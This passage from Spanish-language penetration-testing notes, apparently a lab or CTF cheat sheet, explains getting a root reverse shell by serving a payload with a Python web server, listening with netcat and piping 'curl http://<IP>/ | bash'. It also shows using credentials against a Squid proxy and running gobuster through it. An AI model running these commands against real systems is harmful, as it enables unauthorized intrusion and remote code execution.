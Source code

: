 Guardamos el archivo y ahora lo ejecutaremos desde `curl` con el exploit el cual nos deja ejecutar comandos...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma mediante el exploit...

```shell
curl http://<IP>/ | bash
```

Y con esto ya tendriamos la shell autenticada como `root` ya que lo esta ejecutando el usuario `root` todo esto y como si se estuviera ejecutando desde la maquina victima...

### Squid Proxy

Si alguna vez vemos un puerto...

```
<PORT>/tcp   open   http-proxy    Squid http proxy <VERSION>
```

Nos da una pista de que podremos conectarnos a ese proxy mediante `curl` enviando una peticion, pero tiene que ser de forma autenticada, por lo que tendremos que conseguir las credenciales...

Podemos probar a intentar conectarnos de la siguiente manera...

```shell
curl --proxy http://<IP>:<PORT> http://127.0.0.1
```

Con esto lo que estamos haciendo es intentar conectarnos a esa `IP` de la maquina victima con el puerto en el que esta el `Squid proxy` a nuestro puerto `80` por que si no le especificamos un puerto al `127.0.0.1` se redirige automaticamente al puerto `80`, pero sin credenciales pondra un `acceso denegado`...

Pero si queremos conectarnos teniendo una credenciales haremos lo siguiente...

```shell
curl --proxy 'http://<USER>:<PASSWORD>@<IP>:<PORT>' http://127.0.0.1
```

Y si las credenciales fueron las correctas, podremos ver un `Welcome`...

#### Gobuster con proxy

Por lo que ya podremos listar directorios de esa `URL` pasando por un `proxy` autenticado...

```shell
gobuster dir --proxy 'http://<USER>:<PASSWORD>@<IP>:<PORT>' -w <WORDLIST> --url http://127.0.0.1
```
